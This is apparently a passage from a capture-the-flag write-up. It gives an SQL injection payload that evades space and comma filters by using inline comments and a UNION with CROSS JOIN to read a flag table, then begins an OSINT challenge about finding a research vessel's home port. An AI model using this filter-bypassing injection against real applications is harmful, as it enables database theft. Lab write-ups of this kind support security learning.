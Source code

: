 
Payload:
```
apple'/**/union/**/all/**/select/**/*/**/from/**/(select/**/null)/**/as/**/a/**/cross/**/join/**/(select/**/flag_value/**/from/**/flag)/**/as/**/b;--/**/-'
```

![](/assets/img/2025-05-11-blackbbery-ccoe-ctf-2025/sqli2_flag.png)
_UNION without commas and spaces_

### Lost and Found (Misc)

> A historic ship was lost and sank, then rediscovered a century later. Track down the research vessel that found it and uncover the location of the home port, where the vessel docks regularly. Find out the GPS location of the home port of that research vessel and rounded to three decimal places.
>
> Flag Format: bbctf{latitude_longitude} rounded to three decimal places.
>
> Added description as hint The ship that you found on the Google Maps with the ship name is pointed incorrectly. You can find out the correct ship with Google Search View
> 
> Author: sREe
>
> Solved by @selinatan
